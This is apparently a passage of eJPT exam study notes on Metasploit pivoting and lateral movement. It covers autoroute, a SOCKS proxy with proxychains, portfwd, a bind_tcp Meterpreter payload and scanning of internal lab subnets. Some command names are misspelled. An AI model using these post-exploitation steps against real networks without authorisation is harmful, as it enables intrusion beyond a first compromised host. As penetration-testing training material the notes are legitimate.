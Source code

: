 ## Pivoting and lateral movement

[eJPT - Exam Notes Index](https://github.com/sedici-gith/eJPT/tree/main)

### Metaslpoit (Meterpreter)
```
shell
/bin/bash -i
ifconfig
```
This command aims to discover another subnet accessibile only by the target machine.

### Meterpreter

After obtaining a Meterpreter session on the target system, we can access to another system connected to the first, using:
```
meterpreter> run autotoroute -s 10.10.26.0/20
```
and then:
```
metasploit> use /auxiliary/server/socks_proxy
root> proxychains nmap demo1.ine.local
```
The first one works only within the Metasploit session, the second one works system wide.
It is important to correctly identify the network needed to configure autoroute.

We can establish a general port forwarding mechanism to facilitate communication and access to other tools on the target machine.
```
portfwd add -l 1234 -p 80 -r 10.10.10.127
db_nmap -sS -sV -p 1234 localhost
```
```
windows/meterpreter/bind_tcp
```
To exploit the second machine we need to use th bind_tcp method beaches we cannot establish a direct connection to the target.

### Metasploit
```
use auxiliary/scanner/portscan/tcp
```
It’s used to scan TCP ports on a target machine located on an unreachable subnet, without the assistance of the first target machine.
```
search udp_sweep
```
Same for UDP.
